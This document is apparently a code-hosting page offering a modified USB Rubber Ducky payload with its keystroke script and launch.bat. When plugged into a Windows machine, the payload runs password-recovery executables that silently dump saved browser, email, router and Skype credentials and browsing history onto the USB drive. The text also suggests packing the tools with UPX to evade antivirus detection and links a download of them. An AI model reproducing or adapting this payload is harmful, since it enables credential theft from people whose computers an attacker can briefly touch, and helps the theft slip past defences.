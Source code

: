 The following is a modified version of Mr Gray's password recovery script for the USB rubber ducky. Modifications include googleKnowsBest's ducky drive detection if the drive is labeled "DUCKY", which has been coded to work on all current windows OS's, and a modification to run from a folder on the ducky labeled "MrGraysRubberHacks". This payload has also been tweaked to be a little more forgiving to errors, and as such has some more delays. Forgiving as this script is, it may need customized delays depending on the users requirements. The payload is designed for c_duck_v2_S001.hex, and c_duck_v2_S002.hex firmware types. Wait for the ducky's drive to mount, and then press the button to launch this payload. This payload may also be launched using a tandem duck attack in which you use stock duck firmware, linked to a mass storage device via a 2 port USB cable splitter. This method would mount the mass storage almost instantaneously which would negate the need to wait for the ducky's mass storage to mount. 
The forum page is located here: 

http://forums.hak5.org/index.php?/topic/29067-payload-mr-grays-password-history-recovery-tool-for-rubber-ducky/

The executables are accessible at: 

http://www.mediafire.com/?nm1c62qt9w9z3wg

The executables are also individually downloadable from their original location at nirsoft. The executables become resistant to most antivirus detection using the packer UPX. Other such products would further obfuscate the signatures. 

```
ENCODE: 

DEFAULT_DELAY 25
REM File: MrGraysRubberHacks.txt
REM Target: WINDOWS VISTA/7
DELAY 1000
ESCAPE
CONTROL ESCAPE
DELAY 100
STRING cmd
DELAY 100
ENTER
DELAY 150
STRING for /f "tokens=3 delims= " %A in ('echo list volume ^| diskpart ^| findstr "DUCKY"') do (set DUCKYdrive=%A:)
ENTER
STRING set DUCKYdrive=%DUCKYdrive%\MrGraysRubberHacks
ENTER
STRING %DUCKYdrive%\launch.bat
ENTER

LAUNCH.BAT file: 

for /f "tokens=3 delims= " %%A in ('echo list volume ^| diskpart ^| findstr "DUCKY"') do (set DUCKYdrive=%%A:)

REM Output everything to this folder so I don't have everything on the duck's root. 
set DUCKYdrive=%DUCKYdrive%\MrGraysRubberHacks

start %DUCKYdrive%\WebBrowserPassView.exe /stext %DUCKYdrive%\WebBrowserPassView.txt
start %DUCKYdrive%\SkypeLogView.exe /stext %DUCKYdrive%\SkypeLogView.txt
start %DUCKYdrive%\RouterPassView.exe /stext %DUCKYdrive%\RouterPassView.txt
start %DUCKYdrive%\pspv.exe /stext %DUCKYdrive%\pspv.txt
start %DUCKYdrive%\PasswordFox.exe /stext %DUCKYdrive%\PasswordFox.txt
start %DUCKYdrive%\OperaPassView.exe /stext %DUCKYdrive%\OperaPassView.txt
start %DUCKYdrive%\mspass.exe /stext %DUCKYdrive%\mspass.txt
start %DUCKYdrive%\mailpv.exe /stext %DUCKYdrive%\mailpv.txt
start %DUCKYdrive%\iepv.exe /stext %DUCKYdrive%\iepv.txt
start %DUCKYdrive%\ChromePass.exe /stext %DUCKYdrive%\ChromePass.txt
start %DUCKYdrive%\ChromeHistoryView.exe /stext %DUCKYdrive%\ChromeHistoryView.txt
start %DUCKYdrive%\BulletsPassView.exe /stext %DUCKYdrive%\BulletsPassView.txt
start %DUCKYdrive%\BrowsingHistoryView.exe /stext %DUCKYdrive%\BrowsingHistoryView.txt
```

If you wish to remove the part of the script that contains the code to the folder MrGraysRubberHacks, and instead have all output go to the root of the drive delete the following items:

```
ENCODE: 

...
STRING set DUCKYdrive=%DUCKYdrive%\MrGraysRubberHacks
ENTER
...
```

```
LAUNCH.BAT file: 

...
REM Output everything to this folder so I dont have everything on the duck's root. 
set DUCKYdrive=%DUCKYdrive%\MrGraysRubberHacks
...
```
